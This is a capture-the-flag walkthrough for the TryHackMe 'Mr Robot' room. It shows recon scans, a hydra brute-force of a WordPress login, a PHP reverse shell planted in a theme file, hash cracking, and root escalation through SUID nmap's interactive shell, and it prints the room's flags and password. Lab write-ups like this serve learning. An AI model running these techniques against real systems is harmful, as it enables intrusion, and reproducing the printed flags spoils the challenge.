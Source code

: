 ###### Based on the Mr. Robot show, can you root this box?
Room: https://tryhackme.com/room/mrrobot
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xxx  
```
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
```

**gobuster dir** http://xx.xx.xxx.xxx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 100 
```
/images               (Status: 301) [Size: 236] [--> http://xx.xx.xxx.xxx/images/]
/blog                 (Status: 301) [Size: 234] [--> http://xx.xx.xxx.xxx/blog/]  
/sitemap              (Status: 200) [Size: 0]                                     
/login                (Status: 302) [Size: 0] [--> http://xx.xx.xxx.xxx/wp-login.php]
/rss                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/video                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/video/]    
/0                    (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/0/]          
/feed                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]       
/wp-content           (Status: 301) [Size: 240] [--> http://xx.xx.xxx.xxx/wp-content/]
/admin                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/admin/]     
/atom                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/atom/]   
/image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/image/]       
/audio                (Status: 301) [Size: 235] [--> http://xx.xx.xxx.xxx/audio/]     
/intro                (Status: 200) [Size: 516314]                                    
/css                  (Status: 301) [Size: 233] [--> http://xx.xx.xxx.xxx/css/]       
/wp-login             (Status: 200) [Size: 2613]                                      
/rss2                 (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/]        
/license              (Status: 200) [Size: 309]                                       
/wp-includes          (Status: 301) [Size: 241] [--> http://xx.xx.xxx.xxx/wp-includes/]
/js                   (Status: 301) [Size: 232] [--> http://xx.xx.xxx.xxx/js/]         
/Image                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/Image/]        
/rdf                  (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/feed/rdf/]     
/page1                (Status: 301) [Size: 0] [--> http://xx.xx.xxx.xxx/]              
/readme               (Status: 200) [Size: 64]                                         
/robots               (Status: 200) [Size: 41]                        

```

However, most of these are forbidden to access.  

* xx.xx.xxx.xxx/wp-login 
* xx.xx.xxx.xxx/robots.txt

Are the directories that matter to us.  

At **robots.txt** we can find a password list called **fsocity.dic** we can download using wget http://xx.xx.xxx.xxx//fsocity.dic  
**Note**: It's _fsocity_ and NOT _fsociety_.  

**The first flag is at xx.xx.xxx.xxx/key-1-of-3.txt and is 073403c8a58a1f80d943455fb30724b9** **[1]**.  

After some more looking around, I decided that we have enough to start bruteforcing the Wordpress Login since I couldn't find anything else useful enough.  
**hydra** -l Elliot -P fsocity.dic xx.xx.xxx.xxx http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

The password happens to be **ER28-0652**.

Once we're logged in Elliot's account, we can go and change one of the .php's pages source code with a PHP reverse shell.  
I edited the 404.php page of twentyfifteen's theme and replaced the source code with a PHP reverse shell.  

I got a reverse shell under the **daemon** "user".  
However, it was easy to escalate privileges since in /home/robot was a raw MD5 hash that I could crack.  
> abcdefghijklmnopqrstuvwxyz

After we're under **robot** user, we can read the **flag-2-of-3.txt** file.  

**Second flag is at /home/robot/key-2-of-3.txt and is 822c73956184f694993bede3eb39f959** **[2]**.  

To escalate privileges, I first took a look at what I can execute by running  
**find** / perm +6000 2>/dev/null | grep "/bin/"

I used the **nmap** located at /usr/local/bin/nmap to escalate my privileges to root.  
**nmap --interactive**  
nmap> **!sh**

```
# whoami
whoami
root
```

**The third and final flag is at /root/key-3-of-3.txt and is 04787ddef27c3dee1ee161b21670b4e4** **[3]**. 
